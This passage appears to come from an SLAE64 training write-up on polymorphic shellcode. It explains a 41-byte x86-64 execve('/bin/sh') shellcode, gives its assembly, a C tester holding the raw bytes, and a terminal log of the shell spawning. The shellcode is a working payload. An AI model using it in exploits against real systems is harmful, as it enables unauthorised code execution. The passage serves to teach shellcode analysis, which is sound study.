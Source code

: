 ```nasm

	mov rsi, rsp

	mov al, 0x3b
	syscall

	push 0x1
	pop rdi

	push 0x3c
	pop rax
	
	syscall
```

Briefly, 2 syscalls are executed, indicated by the 2 times of the instruction: `syscall`. The first syscall is `execve` and its number `59` is passed to `RAX`. The first argument in `RDI` is the string "/bin/sh\0", the second argument in `RSI` is the pointer to the memory location of the string and the third argument in `RDX` is `0`. The second syscall is `exit` and its number `60` is passed to `RAX`. Its only argument in `RDI` has the value `1` indicating that the program terminated unsuccessfully.

It should be noted that the author had declared the size of the shellcode as `33`, but after compiling and running the shellcode tester `C` program (`shellcode-original.c`) the size was found to be `41` bytes. So, we stick to the 2<sup>nd</sup> value as the size.

**shellcode-original.c**

```c
#include <stdio.h> 
#include <string.h> 

unsigned char code[] = \ 
"\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05";

main() 
{ 
	printf("Shellcode Length: %d\n", strlen(code)); 
	
	int (*ret)() = (int(*)())code; 
	
	ret(); 
}
```

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/1_execve$ ./shellcode-original 
Shellcode Length: 41
$ id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ ls
compile.sh  execve-original  execve-original.nasm  execve-original.o  shellcode-original  shellcode-original.c
$ exit
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/1_execve$
```
